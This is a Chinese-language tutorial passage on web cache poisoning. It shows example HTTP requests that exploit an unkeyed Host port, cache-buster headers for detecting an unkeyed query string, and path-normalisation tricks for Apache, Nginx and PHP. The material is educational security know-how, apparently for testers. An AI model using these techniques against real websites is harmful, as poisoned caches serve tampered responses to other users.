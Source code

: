 ### 实例

#### Unkeyed port
> 高速缓存系统将解析报头并从该高速缓存键中排除端口
1. 正常请求
```javascript
GET / HTTP/1.1 
Host: vulnerable-website.com 

HTTP/1.1 302 Moved Permanently 
Location: https://vulnerable-website.com/en 
Cache-Status: miss
```
2. 改变Host的端口
```javascript
GET / HTTP/1.1 
Host: vulnerable-website.com:1337 

HTTP/1.1 302 Moved Permanently 
Location: https://vulnerable-website.com:1337/en 
Cache-Status: miss
```
3. 缓存后：
```javascript
GET / HTTP/1.1 
Host: vulnerable-website.com 

HTTP/1.1 302 Moved Permanently 
Location: https://vulnerable-website.com:1337/en 
Cache-Status: hit
```

#### Unkeyed query string
> 最常见的缓存键转换之一是排除整个查询字符串

##### Detecting an unkeyed query string
> 如果响应显式地告诉您是否命中了缓存，那么这种转换就相对容易发现，但是如果没有呢？很难知道您是在与该高速缓存还是服务器通信。
1. 可以通过在缓存建添加不干扰应用程序行为键值，来判断是否交互
```
Accept-Encoding: gzip, deflate, cachebuster 
Accept: */*, text/cachebuster 
Cookie: cachebuster=1 
Origin: https://cachebuster.vulnerable-website.com
```
2. 如果使用Param Miner，还可以选择“Add static/dynamic cache buster”和“Include cache buster in header”选项。然后，它将自动添加一个缓存buster到您使用Burp的手动测试工具发送的任何请求中的常用键控头。
3. 查看该高速缓存和后端规范化请求路径的方式之间是否存在任何差异。由于路径几乎可以保证是键控的，因此有时可以利用这一点发出具有不同键的请求，但这些请求仍然会命中同一个端点。例如`GET /`
```javascript
Apache: GET //   
Nginx:  GET /%2F   
PHP:  GET /index.php/xyz
```
